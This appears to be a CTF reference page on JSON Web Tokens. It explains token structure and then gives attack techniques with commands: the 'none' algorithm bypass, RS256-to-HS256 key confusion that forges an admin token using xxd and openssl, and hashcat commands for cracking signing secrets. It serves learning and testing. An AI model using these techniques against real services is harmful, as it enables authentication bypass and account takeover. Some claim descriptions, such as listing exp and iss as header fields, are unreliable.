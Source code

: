 # JWT - JSON Web Tokens
> JSON Web Tokens, commonly used for authentication, is an open standard (RFC 7519) that defines a compact and self-contained way for securely transmitting information between parties as a JSON object. This information can be verified and trusted because it is digitally signed.

It usually takes a form similar to this: 

`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c` (JWTs are always encoded in Base64)

1. `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9` - This is the header of the JWT. There are several claims that can be made in a header:
- `alg`
    - Specifies how the signature should be calculated. Default is HS256 (HMAC with SHA256), other common types include RS256 (RSASSA-PKCS1-v1\_5 using SHA256) or none (no digital signature for debugging purposes).
- `iss`
    - Issuer of the token
- `exp`
    - Expiration timestamp of the token (expired tokens will be rejected)
- `iat`
    - Issue time of token (can determine token age)
- `nbf`
    - "Anti-expiration": Token is only valid after the specified time
- `jti`
    - Unique ID for the token, so the JWT can't be re-used or re-deployed (Prevents cookie stealing via Server XSS)
- `sub` and `aud`
    - Subject and Audience of token (rarely used)

2. `eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ` - Payload of JWT, actual data is in here

3. `SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c` - Signature of JWT used to verify that it hasn't been modified. 
The signature is defined as follows (HS256): 

```
HMACSHA256(Base64-encoded header + Base64-encoded payload + secret)
```

## None algo
With the `none` algorithm, the signature is made redundant, so payload can be modified freely

Variations of `none`:
- `None`
- `NONE`
- `nOnE`

However, the signature must be removed for this to work. Also, most jwt handling modules have algos hardcoded, so the app has to be explicitly configured to determine algo based on JWT input.

## RS256 to HS256
Since RSA256 is asymmetric, it has a public and private key, while HS256 is symmetric and only has a single secret key. If the original token used RS256, it may be possible to sign it through HS256 with the RS256 public key

Steps:
1. Convert public key (key.pem) into hex
```bash
$ cat key.pem | xxd -p | tr -d "\\n"
```

2. Generate HMAC signature with desired header and payload, supplying key as output of above
```bash
$ echo -n "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6dHJ1ZX0" | openssl dgst -sha256 -mac HMAC -macopt hexkey:<hex key here> | base64
```

## Cracking secret with hashcat
``` bash
$ ./hashcat.exe -a 0 -m 16500 ./jwt ./rockyou.dict
```
```bash
$ ./hashcat.exe -a 3 -m 16500 ./jwt ?a?a?a?a?a?a
```

## Relevant tools
`/CTF/tools/Web/JWT/jwt-tool`
